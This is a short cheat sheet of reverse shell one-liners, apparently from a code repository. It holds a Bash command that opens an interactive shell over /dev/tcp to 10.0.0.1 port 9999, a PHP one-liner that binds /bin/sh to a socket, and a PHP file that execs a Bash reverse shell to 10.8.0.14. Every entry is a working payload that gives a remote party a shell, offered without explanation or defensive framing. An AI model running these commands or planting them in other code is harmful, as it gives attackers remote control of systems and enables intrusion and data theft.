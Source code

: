 # Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
##

<?php

$cmd = 'echo "bash -i >& /dev/tcp/10.8.0.14/9999 0>&1" | bash';
exec($cmd);

?>
##
